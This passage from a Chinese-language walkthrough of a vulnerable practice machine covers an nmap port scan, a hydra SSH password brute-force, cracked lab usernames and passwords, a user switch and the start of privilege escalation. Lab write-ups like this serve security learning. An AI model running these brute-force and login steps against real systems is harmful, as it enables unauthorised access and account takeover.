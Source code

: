 再扫描一下是否开放了 ssh 端口：

```bash
nmap 10.160.58.244
```

```text
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

尝试爆破一下：

```bash
hydra -L dcusername.txt -P dcpassword.txt ssh://10.160.58.244
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116484.png" alt="image-20240321204536465" style="zoom:50%;" />

```apl
chandlerb   		UrAG0D!
joeyt   			Passw0rd
janitor   			Ilovepeepee
```

### ssh登录

进行登录查询信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116485.png" alt="image-20240321204937022" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116486.png" alt="image-20240321205015016" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116487.png" alt="image-20240321205048170" style="zoom:50%;" />

## 提权

然后在最后一个用户发现了一些东西：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116488.png" alt="image-20240321205218811" style="zoom:50%;" />

将字典添加到密码字典中进行爆破：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116489.png" alt="image-20240321205513233" style="zoom:50%;" />

又得到一个用户：

### 切换至fredf

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116490.png" alt="image-20240321205636077" style="zoom:50%;" />

查看一下：

```bash
file /opt/devstuff/dist/test/test
# /opt/devstuff/dist/test/test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=28ba79c778f7402713aec6af319ee0fbaf3a8014, stripped
```
